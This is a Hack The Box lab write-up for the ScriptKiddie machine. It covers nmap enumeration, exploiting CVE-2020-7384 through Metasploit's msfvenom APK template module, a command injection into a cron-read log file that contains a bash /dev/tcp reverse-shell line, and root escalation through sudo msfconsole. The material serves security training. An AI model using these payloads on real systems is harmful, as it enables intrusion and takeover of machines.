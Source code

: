 ```yaml
---
title:     "Hack The Box - ScriptKiddie"
tags: [linux,easy,metasploit,command injection,sudo]
categories: HackTheBox
image: /img/scriptkiddie/info_card.png
excerpt: "ScriptKiddie is an easy rated machine on HackTheBox by [0xdf](https://www.hackthebox.eu/home/users/profile/4935). For the user part we will exploit a web application that let's us generate mfsvenom files with templates abusing [CVE-2020-7384](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/). This gives us a shell as the user `kid`, from whom we pivot to the user `pwn` abusing a running cronjob with another command injection. As `pwn` we can run `msfconsole` as root,  which let's us drop into a rootshell executing bash."
---
```


ScriptKiddie is an easy rated machine on HackTheBox by [0xdf](https://www.hackthebox.eu/home/users/profile/4935). For the user part we will exploit a web application that let's us generate mfsvenom files with templates abusing [CVE-2020-7384](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/). This gives us a shell as the user `kid`, from whom we pivot to the user `pwn` abusing a running cronjob with another command injection. As `pwn` we can run `msfconsole` as root,  which let's us drop into a rootshell executing bash.

# User
## Nmap
As usual we start our enumeration on the target with an allports nmap scan to capture the whole attack surface, followed by a script and version detection scan to obtain more detailed information on the open ports.

`Nmap allports`

```php
$ sudo nmap -p- -T4 10.129.153.127
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-29 06:12 UTC
Nmap scan report for 10.129.153.127
Host is up (0.073s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 46.68 seconds
```

`Nmap script and version scan`

```python
$ sudo nmap -p22,5000 -sC -sV 10.129.153.127
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-29 06:16 UTC
Nmap scan report for 10.129.153.127
Host is up (0.032s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.21 seconds
```

## Msfvenom template
Going over to the werbserver on port 5000 we can see that it is offering 3 different applications.

[![website](/img/scriptkiddie/website.png)](/img/scriptkiddie/website.png)

We can scan a host with nmap entering an ip, generate `msfvenom` payloads with templates and also perform a `searchsploit` search. Scanning localhost with the nmap service we don't get any additional information. The interesting thing here is the payload generation with a template because it is vulnerable to [CVE-2020-7384](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/).
This works by exploiting a command injection vulnerability in msfvenom when generating an `apk` payload with a template file.
In a first step we will generate the malicious apk file using the msf module `unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`.

```php
       =[ metasploit v6.0.44-dev                          ]
+ -- --=[ 2132 exploits - 1139 auxiliary - 363 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to 
check out the result of hosts and services

[*] Starting persistent handler(s)...
msf6 > use unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lhost 10.10.14.7
lhost => 10.10.14.7
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lport 7575
lport => 7575
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /home/jack/.msf4/local/msf.apk
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > 
```

Next we set up our `ncat` listener on the selected port.

```php
$nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

With preparations set we can now generate the `msfvenom` payload with our malicious `apk` template.

[![payload_web](/img/scriptkiddie/payload_web.png)](/img/scriptkiddie/payload_web.png)

After a short moment we get a hit back on our `ncat` listener and upgrade the shell. Now we can grab the user flag in `/home/kid`.

```php
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.153.127.
Ncat: Connection from 10.129.153.127:47952.
python3 -c 'import pty;pty.spawn("/bin/bash")'
kid@scriptkiddie:~/html$ export TERM=xterm
export TERM=xterm
kid@scriptkiddie:~/html$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

kid@scriptkiddie:~/html$ stty rows 55 cols 236
kid@scriptkiddie:~/html$
```

```
kid@scriptkiddie:~$ wc -c user.txt 
33 user.txt
```

# Root

## Command injection #2
Looking around in the other users home directory we find the script `scanlosers.sh`. This script reads the logfile in `home/kid/logs/hackers` takes the third argument in each row, seperated by a space and runs a nmap script against it. This is also vulnerable to a simple command injection, which we can use to gain a shell as the user pwn.

```
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh 
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

First we set up our listener again.

```php
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Then we place our command injection in the logfile and recieve an instant shell on the target.

```php
kid@scriptkiddie:/home/pwn$ echo 'x x ;bash -c "bash -i >& /dev/tcp/10.10.14.7/7575 0>&1;"' > /home/kid/logs/hackers
```

We upgrade our shell again and continue on our way to root.

```php
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.153.127.
Ncat: Connection from 10.129.153.127:48198.
bash: cannot set terminal process group (803): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
pwn@scriptkiddie:~$ export TERM=xterm
export TERM=xterm
pwn@scriptkiddie:~$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

pwn@scriptkiddie:~$ stty rows 55 cols 236
pwn@scriptkiddie:~$
```

## Sudo on Metasploit

Checking the sudo permission we see that pwn can run msfconsole as root. Since we can issue os commands inside msf, this gives us an easy way to escalate to root.

```php
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

We start up msfconsole with sudo and execute `/bin/bash`.

```php
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
```

This drops us into a rootshell and we can grab the rootflag.

```php
msf6 > /bin/bash
[*] exec: /bin/bash

root@scriptkiddie:/home/pwn# id
uid=0(root) gid=0(root) groups=0(root)
root@scriptkiddie:/home/pwn# wc -c /root/root.txt
33 /root/root.txt
root@scriptkiddie:/home/pwn# 
```
